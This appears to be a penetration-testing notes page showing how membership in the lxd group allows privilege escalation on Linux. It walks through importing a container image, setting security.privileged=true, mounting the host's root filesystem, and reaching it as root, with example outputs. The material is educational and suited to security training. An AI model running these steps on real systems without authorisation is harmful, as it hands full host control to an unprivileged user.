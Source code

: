 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# LXD

## Containers

Containerisation operates at the OS level - in contrast to virtual machines, which operate at the hardware level - and thus share an OS but isolate application processes from the rest of the system.

## Linux Containers

Linux Containers (LXC) is an operating system-level virtualisation technique that allows multiple Linux systems to run in isolation of one-another on a single host by allowing them to manage their own processes but sharing the host system kernel.

### Linux Daemon

Linux Daemon (LXD) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container. Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group.

{% code title="Command" %}
```bash
id
```
{% endcode %}

{% code title="Example Output" %}
```bash
uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
{% endcode %}

There are several ways in which we can exploit `LXC`/`LXD`. We can either create our own container and transfer it to the target system or use an existing container.

Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves.

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

Such templates often do not have passwords, especially if they are uncomplicated test environments. These should be quickly accessible and uncomplicated to use. The focus on security would complicate the whole initiation, make it more difficult and thus slow it down considerably. If we are a little lucky and there is such a container on the system, it can be exploited. For this, we need to import this container as an image.

{% code title="Command" %}
```bash
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
```
{% endcode %}

{% code title="Command" %}
```bash
lxc image list
```
{% endcode %}

{% code title="Example Output" %}
```shell-session
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```
{% endcode %}

After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.

{% code title="Command" %}
```bash
lxc init ubuntutemp privesc -c security.privileged=true
```
{% endcode %}

We can then mount the entire host file system - using `source=/` - at the location specified using `path=/mnt/root`.

{% code title="Command" %}
```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
{% endcode %}

Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the `resource` of the host system as `root`.

{% code title="Command" %}
```bash
lxc start privesc
```
{% endcode %}

{% code title="Command" %}
```bash
lxc exec privesc /bin/bash
```
{% endcode %}

```shell-session
root@nix02:~# ls -l /mnt/root

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```

